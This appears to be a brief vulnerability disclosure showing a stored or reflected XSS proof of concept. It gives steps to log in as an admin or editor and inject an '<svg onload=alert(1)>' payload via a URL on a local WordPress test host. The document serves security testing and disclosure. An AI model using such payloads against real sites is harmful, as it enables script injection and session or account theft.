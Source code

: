# Steps
**Step 1:** 
Log in as the admin or the editor

**Step 2**
Inject XSS
with the follow code
```
http://wpdistillery.vm/<svg onload=alert(1)>
```
